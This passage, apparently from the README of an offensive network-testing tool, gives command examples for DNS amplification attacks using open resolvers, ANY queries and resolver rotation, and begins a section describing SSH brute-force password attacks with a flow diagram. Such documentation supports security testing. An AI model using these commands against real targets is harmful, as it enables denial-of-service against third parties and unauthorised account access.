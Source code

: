 ```bash
    --recursive \
    --rotate-dns \
    --verify-amplification \
    --amplification-threshold 10.0
```

**Attack Scenarios:**
1. Basic Amplification Test
   ```bash
   # Test with single DNS server
   python src/cli.py dns-amplification \
       --target 192.168.1.100 \
       --dns-server 8.8.8.8 \
       --query-domain example.com \
       --verify-amplification
   ```

2. Distributed Amplification
   ```bash
   # Use multiple DNS servers with rotation
   python src/cli.py dns-amplification \
       --target 192.168.1.100 \
       --dns-servers-file resolvers.txt \
       --query-type ANY \
       --rotate-dns \
       --threads 4 \
       --interval 0.5
   ```

**Safety Considerations:**
- Verify DNS server responses before attack
- Monitor network bandwidth consumption
- Be cautious with number of parallel threads
- Consider impact on DNS infrastructure
- Use appropriate intervals between queries
- Regularly update DNS server list

### Credential Attacks

#### SSH Brute Force

**Description:**  
SSH Brute Force attack attempts to gain unauthorized access to SSH servers by systematically trying various username and password combinations. The attack can target a single host or multiple hosts, using wordlists for both usernames and passwords, with options for parallel attempts and rate limiting.

**Attack Flow:**
```mermaid
graph TB
    Start[Start Attack] --> Config[Configure Attack]
    Config --> Load[Load Wordlists]
    Load --> Init[Initialize Connections]
    Init --> Loop[Try Credentials]
    Loop --> Check{Success?}
    Check -->|No| Rate[Rate Limit]
    Rate --> NextCred[Next Credentials]
    NextCred --> Loop
    Check -->|Yes| Log[Log Success]
    Log --> Continue{Continue?}
    Continue -->|Yes| NextCred
    Continue -->|No| End[End Attack]
```
